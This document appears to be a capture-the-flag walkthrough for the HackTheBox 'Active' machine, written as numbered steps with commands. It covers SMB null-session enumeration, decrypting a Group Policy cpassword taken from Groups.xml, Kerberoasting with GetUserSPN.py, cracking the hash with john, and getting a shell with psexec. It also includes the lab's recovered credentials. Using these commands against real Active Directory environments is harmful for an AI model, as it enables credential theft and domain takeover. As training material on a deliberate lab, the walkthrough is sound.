 1 - Enumerate ports

2 - When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3 - Add the domain paired with the machin ip to the hosts file in /etc/hosts

4 - Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__-N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session<br>
	4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__<br>
	4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5 - After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6 - Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7 - Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8 - While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9 - In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10 - Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11 - After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12 - Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13 - Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14 - Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15 - Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16 - Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__
	16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N
	16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17 - Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18 - After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19 - When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20 - Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe